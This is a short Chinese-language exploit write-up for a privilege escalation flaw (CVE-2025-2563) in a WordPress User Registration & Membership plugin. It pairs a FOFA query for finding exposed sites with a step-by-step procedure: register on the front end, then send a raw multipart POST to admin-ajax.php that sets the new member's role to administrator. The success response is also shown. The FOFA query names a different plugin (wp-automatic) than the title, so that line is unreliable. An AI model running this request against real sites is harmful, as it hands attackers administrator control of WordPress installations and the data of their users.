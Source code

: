 ## WordPress (User Registration & Membership) Plugin权限提升漏洞(CVE-2025-2563)

## fofa
```
"/wp-content/plugins/wp-automatic"
```
## 第一步
通过 /registration 或 /membership-registration 前端页面注册
## 第二步，注册后，使用该请求数据
```
POST /wp-admin/admin-ajax.php HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: */*
Host: hackthebox.test
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Content-Type: multipart/form-data; boundary=--------------------------189123966817005614765335

----------------------------189123966817005614765335
Content-Disposition: form-data; name="action"

user_registration_membership_register_member
----------------------------189123966817005614765335
Content-Disposition: form-data; name="security"

THE_NONCE_HERE
----------------------------189123966817005614765335
Content-Disposition: form-data; name="members_data"

{"membership":"MEMBERSHIP_ID","payment_method":"free","start_date":"2025-3-29","username":"REGISTERED_USERNAME","role":"administrator"}
----------------------------189123966817005614765335--
```
## 第三步，返回相应包如下
```
{
    "success": true,
    "data": {
        "member_id": 24,
        "transaction_id": "",
        "message": "New member has been successfully created."
    }
}  
```
## github地址
https://github.com/ubaydev/CVE-2025-2563
